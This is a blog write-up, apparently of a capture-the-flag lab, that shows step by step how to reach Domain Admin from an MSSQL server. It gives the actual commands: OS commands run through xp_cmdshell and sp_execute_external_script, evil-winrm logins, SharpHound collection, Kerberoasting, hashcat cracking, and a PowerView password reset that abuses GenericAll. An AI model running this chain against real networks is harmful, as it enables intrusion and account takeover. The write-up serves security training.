 ```yaml
---
title: Kerberoasting Using Mssql Server [ Abusing GenericAll ] 
author: r0b0tG4nG
date: 2022-01-13 01:33:00 +0000
categories: [Blogging, Exploiting]
tags: [writeups, mssql, impacket-mssqlclient, hashcat, xp_cmdshell, powerview, evil-winrm, kerberoast, bloodhound]
math: true
mermaid: true
---
```


![image](https://user-images.githubusercontent.com/67085453/149357946-9fd46ceb-e42d-4d76-9b0d-bc2a474ec637.png)
<br><br>

**> Information Gathering**<br>

From The previous writeup on <a href="https://r0b0tg4ng.github.io/posts/Abusing-MSSQL-Linked-Servers/">Abusing MSSQL Linked Servers</a>, we found credentials on the target. In this chapter, we will look at how we can perform kerberoast attacks through `MSSQL Server`. During our previous engagement, we found credentials using <a href="https://docs.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/sp-execute-external-script-transact-sql?view=sql-server-ver15">sp_execute_external_script</a>.<br>
```web.config
        <authentication mode="Forms">
            <forms name="login" loginUrl="/admin">
                <credentials passwordFormat = "Clear">
                    <user 
                        name="Administrator" 
                        password="EverybodyWantsToWorkAtP.O.O."
                    />
                </credentials>
            </forms>
        </authentication>
```
<br>

The question is what can we do with this credential?? Well, we are not out of options. I checked the ipaddress of the target `MSSQL Server` is running on using `sp_execute_external_script` command `EXEC sp_execute_external_script @language = N'Python', @script = N'import os;os.system("ipconfig");'; `. Looking at `IPV4` IP address, there was no service that we could connect to remotely with the credentials we have. So, i decided to dive deep into the `IPV6` address.<br>
![image](https://user-images.githubusercontent.com/67085453/149357971-62ddb9d1-f1a5-467f-93ac-af21677c3a47.png)<br>

A quick nmap scan was performed on the `IPV6` IP address. Port 5985 (Windows Remote Management) was open. Good news at last all we need to do is add the `IPV6` IP address to `/etc/hosts` file `dead:beef::1001  targetipv6`. Henceforth, when i type `targetipv6` i am referring to `dead:beef::1001` address.<br>
![image](https://user-images.githubusercontent.com/67085453/149357995-64d905cf-e354-4354-99ad-3a9775f413bd.png)<br>

I connected to `WinRM` using <a href="https://github.com/Hackplayers/evil-winrm">evilwinrm</a> tool. The command executed to connect to `WinRM` was `evil-winrm -i targetipv6 -u Administrator -p 'EverybodyWantsToWorkAtP.O.O.'`<br>
![image](https://user-images.githubusercontent.com/67085453/149358092-a9615c4f-e560-451f-96b4-ae37e846a737.png)<br>

Digging around using <a href="https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS">winpeas</a> and some few post enumeration tools didn’t yield any positive results. So, i decided to enumerate the domain to find privilege escalation paths but i realized we can't query the domain from a
local administrator account from the errors i encountered.<br>
![image](https://user-images.githubusercontent.com/67085453/149358253-3b39b099-9097-4658-8f09-e777400dfa3c.png)<br>

However, the `SQL service account` can be use instead since service accounts
automatically impersonate the computer account, which are members of the domain and effectively a special type of user account. I logged into `MSSQL` using `impacket-mssqlclient` with the `SA` User we added in the <a href="https://r0b0tg4ng.github.io/posts/Abusing-MSSQL-Linked-Servers/">previous post</a> and enabled `xp_cmdshell` to query domain users with command `xp_cmdshell net users /domain`. <br>
![image](https://user-images.githubusercontent.com/67085453/149358283-48722ed2-2d42-4c46-9b73-80e9c1d1678f.png)<br>

`BloodHound` is an application developed with one purpose: to find relationships within an `Active Directory (AD) domain` to discover attack paths. With this said, we will grab `SharpHound.exe` from <a href="https://github.com/BloodHoundAD/BloodHound/tree/master/Collectors">BloodHoundAD GitHub page</a>. Create the `C:\temp\` directory first then upload the `SharpHound.exe` to the target using our evil-winrm session.<br>
![image](https://user-images.githubusercontent.com/67085453/149358328-2fe15870-4bbe-43f8-bc1e-9e50ad550337.png)<br>

Then the next step is to collect all information about the `Active Directory (AD) domain` through mssql using the command `xp_cmdshell C:\temp\SharpHound.exe -C All --outputdirectory C:/temp`.<br>
![image](https://user-images.githubusercontent.com/67085453/149358361-d447e6d1-62e4-4e3c-98f3-78da446f5abc.png)<br>

Once information about the target `Active Directory (AD) domain` is collected and saved into a zip file, we then download the zip file using evil-winrm download command.<br>
![image](https://user-images.githubusercontent.com/67085453/149358379-23531855-f919-42be-abd0-7901ccaa0c76.png)<br>

Install `BloodHound GUI` and upload the zip file you downloaded. *Note: you can install bloodhound GUI from* <a href="https://bloodhound.readthedocs.io/en/latest/data-analysis/bloodhound-gui.html">BloodHound Docs</a>.<br>
![image](https://user-images.githubusercontent.com/67085453/149358407-1dbcbc96-34e6-4b1f-9135-f80f70e22561.png)<br>

After uploading the zip file to bloodhound UI for visualization. We can use pre-built queries to find any quick `privilege escalation vectors`. Clicking on the `Shortest Paths to Domain Admins from Kerberoastable Users` entry shows the following.<br>
![image](https://user-images.githubusercontent.com/67085453/149358427-1558189b-5f46-4e29-adc6-79af19030266.png)<br>

The user `p00_adm` is a member of `help desk` and has `GenericAll privileges` on the `Domain Admins group`. This means that we can add any user to `Domain Admins` if we have `p00_adm credentials`. To accomplish this, we need to kerberoast the `p00_adm` user and try to crack his hash. We can use the `Invoke-Kerberoast.ps1` from <a href="https://github.com/EmpireProject/Empire/blob/master/data/module_source/credentials/Invoke-Kerberoast.ps1">EmpireProject GitHub page</a>.<br>

**> What is Kerberoasting??:** Kerberoasting is a post-exploitation attack that extracts service account credential hashes from Active Directory for offline cracking. It is used to crack a Kerberos (encrypted password) hash using brute force techniques. If successful, it can crack NTLM hashes in a few hours and provide the adversary with a clear-text password<br>

Download the `Invoke-Kerberoast.ps1` script, upload it to `C:\temp\` directory using `Evil-winrm` session like we did to the `SharpHHound.exe` binary. Once we have the `.ps1` uploaded, we can invoke our `kerberoast attack` through `MSSQL` using the command `xp_cmdshell powershell.exe -c "Import-Module C:\temp\Invoke-Kerberoast.ps1; Invoke-Kerberoast -OutputFormat hashcat"`<br>
![image](https://user-images.githubusercontent.com/67085453/149358471-724a69a4-5f19-4db5-be2e-87cdd9ea9f9b.png)<br>
![image](https://user-images.githubusercontent.com/67085453/149358487-e840b805-3f39-42e8-868b-9830dc3fd182.png)<br>

We found two hashes `p00_hr` & `p00_adm`. Keep in mind that we are after `p00_adm` user hash therefore i copied the `p00_adm` user hash to a file and made sure that i deleted the spaces and empty lines from the hash. `p00_adm`. The hash can be cracked using Hashcat command `hashcat -m 13100 hashes /usr/share/seclists/Passwords/Keyboard-Combinations.txt --force`. Lucky us! we were able to crack the password. *Note: this took a very long time since i had to try a variety of wordlist until i got the  password* The password for `p00_adm` is `ZQ!5t4r`.<br>
![image](https://user-images.githubusercontent.com/67085453/149358516-37aeb491-2817-4814-b520-3069a62812aa.png)<br>

What else now?? well we have `p00_adm` user plaintext password and we can `impersonate` the `p00_adm` with the help of `PowerView`. How do we achieve this? first let's grab `PowerView.ps1` from <a href="https://github.com/PowerShellEmpire/PowerTools/tree/master/PowerView">PowerShellEmpire GitHub page</a> and upload it to the target using evil-winrm. Once The `PowerView.ps1` script is uploaded, the next thing to do is to import the file so we will have access to `PowerView` extended commands like `Add-DomainGroupMember`, `Get-DomainComputer`.....etc.<br>

All done?? what's next?? We need to use a credential object to impersonate `p00_adm` user. Execute this command<br>
```shell
$user='p00_adm'
$pass='ZQ!5t4r'
$p= ConvertTo-SecureString -AsPlainText $pass -force
$cred=New-Object System.Management.Automation.PSCredential -ArgumentList $user,$p
```
<br>

![image](https://user-images.githubusercontent.com/67085453/149358621-d2409d18-8cbb-497a-86ed-434add3a3487.png)<br>

After impersonating `p00_adm` user, i still had issues logging in so i searched for `Domain Admins` on the target using the command `get-netuser -DomainController dc -Credential $cred`. From this, i found out the user `mr3ks` is part of the `Domain Admins Group`.<br>
![image](https://user-images.githubusercontent.com/67085453/149358652-d8e5ee90-c4c7-4715-a148-6354cc374103.png)<br>

**> Abusing GenericALL**<br>

Looking back at the `BloodHound GUI`, to abuse `GenericAll`, i right-clicked on the `GenericAll` line, selected `help` and then `Abuse`. This Feature of `BloodHound GUI` explains how we can abuse this feature.<br>
![image](https://user-images.githubusercontent.com/67085453/149358680-5e81be5e-41ea-4e0e-8124-93c2e4e41b20.png)<br>

What can we do now? well, we can change the credentials for `mr3ks` user. The question is how do we do that?? remember i just said `BloodHound GUI` explains everything. I executed this command<br>
```shell
$Username = 'p00_adm'
$Password = 'ZQ!5t4r'
$Connect = ConvertTo-SecureString -AsPlainText $Password -Force
$Auth = New-Object System.Management.Automation.PSCredential -ArgumentList $Username,$Connect
Set-DomainUserPassword -Identity mr3ks -Password $Connect -Credential $Auth
```
<br>

![image](https://user-images.githubusercontent.com/67085453/149358712-4a44c04c-4ece-40de-8acf-b1a96dd91615.png)<br>

We encountered no errors that's good news to the eyes. Let's try to connect to the target through the target `IPV6` `Win-RM` service.  To achieve this, i executed `evil-winrm -i targetipv6 -u mr3ks -p 'ZQ!5t4r'`<br>
![image](https://user-images.githubusercontent.com/67085453/149358731-8f998768-a5e4-4d5a-982b-bc62e01cb4ef.png))<br>


 I hope you enjoyed the ride and also discovered something new. Kindly subscribe to my <a href="https://www.youtube.com/channel/UCSY-pfwuYspZFlRsO7vBfIQ"> YouTube channel</a> for more contents<br>
![image](https://user-images.githubusercontent.com/67085453/146535039-fc5cc779-43b1-4f0b-83c6-ad7129b54219.png).

